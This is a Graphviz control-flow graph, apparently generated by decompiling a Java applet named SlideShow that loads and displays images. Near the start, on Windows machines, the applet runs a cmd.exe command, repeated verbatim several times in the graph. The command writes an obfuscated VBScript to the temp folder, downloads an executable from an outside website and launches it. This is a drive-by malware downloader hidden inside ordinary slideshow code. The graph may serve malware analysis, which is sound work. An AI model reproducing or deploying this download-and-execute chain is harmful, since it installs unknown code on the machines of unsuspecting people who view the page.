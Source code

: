 digraph "" {
    "r0 := @this: SlideShow"
    "push \"os.name\""
    "r0 := @this: SlideShow"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\O5H5F3D3.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\O5H5F3D3.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\O5H5F3D3.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\O5H5F3D3.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\O5H5F3D3.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\O5H5F3D3.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Open >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\O5H5F3D3.vbs & echo Function BinaryGetURL(URL) >> %temp%\\O5H5F3D3.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\O5H5F3D3.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\O5H5F3D3.vbs & echo YK16ggjQQ.Send >> %temp%\\O5H5F3D3.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\O5H5F3D3.vbs & echo End Function >> %temp%\\O5H5F3D3.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\R5J7msi8.exe\\\" >> %temp%\\O5H5F3D3.vbs & start %temp%\\O5H5F3D3.vbs http://www.uaeyouth.gov.ae/includes/uae.exe %temp%\\R5J7msi8.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\O5H5F3D3.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\O5H5F3D3.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\O5H5F3D3.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\O5H5F3D3.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\O5H5F3D3.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\O5H5F3D3.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Open >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\O5H5F3D3.vbs & echo Function BinaryGetURL(URL) >> %temp%\\O5H5F3D3.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\O5H5F3D3.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\O5H5F3D3.vbs & echo YK16ggjQQ.Send >> %temp%\\O5H5F3D3.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\O5H5F3D3.vbs & echo End Function >> %temp%\\O5H5F3D3.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\R5J7msi8.exe\\\" >> %temp%\\O5H5F3D3.vbs & start %temp%\\O5H5F3D3.vbs http://www.uaeyouth.gov.ae/includes/uae.exe %temp%\\R5J7msi8.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\O5H5F3D3.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\O5H5F3D3.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\O5H5F3D3.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\O5H5F3D3.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\O5H5F3D3.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\O5H5F3D3.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Open >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\O5H5F3D3.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\O5H5F3D3.vbs & echo Function BinaryGetURL(URL) >> %temp%\\O5H5F3D3.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\O5H5F3D3.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\O5H5F3D3.vbs & echo YK16ggjQQ.Send >> %temp%\\O5H5F3D3.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\O5H5F3D3.vbs & echo End Function >> %temp%\\O5H5F3D3.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\R5J7msi8.exe\\\" >> %temp%\\O5H5F3D3.vbs & start %temp%\\O5H5F3D3.vbs http://www.uaeyouth.gov.ae/includes/uae.exe %temp%\\R5J7msi8.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <SlideShow: int w>"
    "push -1"->"fieldput <SlideShow: int w>";
    "fieldput <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <SlideShow: int h>"
    "push -1"->"fieldput <SlideShow: int h>";
    "fieldput <SlideShow: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <SlideShow: boolean whb>"
    "push 0"->"fieldput <SlideShow: boolean whb>";
    "fieldput <SlideShow: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int dly>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int dly>";
    "fieldput <SlideShow: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int wp>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int wp>";
    "fieldput <SlideShow: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int sc>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int sc>";
    "fieldput <SlideShow: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int modd>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int modd>";
    "fieldput <SlideShow: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int modd>"
    "load.r r0"->"fieldget <SlideShow: int modd>";
    "push 2"
    "fieldget <SlideShow: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <SlideShow: int modd>";
    "fieldput <SlideShow: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <SlideShow: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <SlideShow: java.awt.MediaTracker tracker>";
    "fieldput <SlideShow: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <SlideShow: int i>"
    "push 1"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String ivalign>";
    "fieldput <SlideShow: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String ialign>";
    "fieldput <SlideShow: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <SlideShow: int i>"
    "load.r r0"->"fieldget <SlideShow: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <SlideShow: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String bs>";
    "fieldput <SlideShow: java.lang.String bs>"->"load.r r0";
    "fieldget <SlideShow: java.lang.String bs>"
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <SlideShow: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldput <SlideShow: int num>"
    "fieldget <SlideShow: int i>"->"fieldput <SlideShow: int num>";
    "fieldput <SlideShow: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int num>"
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <SlideShow: java.awt.Image[] img>"
    "newarray"->"fieldput <SlideShow: java.awt.Image[] img>";
    "fieldput <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] imgw>"
    "newarray"->"fieldput <SlideShow: int[] imgw>";
    "fieldput <SlideShow: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] imgh>"
    "newarray"->"fieldput <SlideShow: int[] imgh>";
    "fieldput <SlideShow: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] dur>"
    "newarray"->"fieldput <SlideShow: int[] dur>";
    "fieldput <SlideShow: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <SlideShow: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <SlideShow: java.awt.Image[] img>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Image[] img>";
    "fieldget <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <SlideShow: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <SlideShow: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <SlideShow: java.awt.MediaTracker tracker>";
    "fieldget <SlideShow: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Image[] img>";
    "fieldget <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "arrayread.r"
    "fieldget <SlideShow: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "push 5"
    "fieldget <SlideShow: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <SlideShow: int durum>"
    "push 0"->"fieldput <SlideShow: int durum>";
    "fieldput <SlideShow: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <SlideShow: int w>";
    "fieldput <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <SlideShow: int h>";
    "fieldput <SlideShow: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int w>"
    "load.r r0"->"fieldget <SlideShow: int w>";
    "fieldget <SlideShow: int w>"->"load.r r0";
    "fieldget <SlideShow: int h>"
    "load.r r0"->"fieldget <SlideShow: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <SlideShow: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <SlideShow: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <SlideShow: java.awt.Image offi>";
    "fieldput <SlideShow: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: java.awt.Image offi>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <SlideShow: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <SlideShow: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <SlideShow: java.awt.Graphics offg2>";
    "fieldput <SlideShow: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <SlideShow: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Graphics offg2>";
    "fieldget <SlideShow: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int w>";
    "fieldget <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <SlideShow: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <SlideShow: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <SlideShow: java.awt.Container container>";
    "fieldput <SlideShow: java.awt.Container container>"->"load.r r0";
    "fieldget <SlideShow: java.awt.Container container>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "instanceof"
    "fieldget <SlideShow: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <SlideShow: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <SlideShow: java.awt.Container container>";
    "fieldput <SlideShow: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "checkcast"
    "fieldget <SlideShow: java.awt.Container container>"->"checkcast";
    "fieldput <SlideShow: java.awt.Frame frm>"
    "checkcast"->"fieldput <SlideShow: java.awt.Frame frm>";
    "fieldput <SlideShow: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <SlideShow: boolean whb>";
    "return"
    "fieldput <SlideShow: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".gif\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".png\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
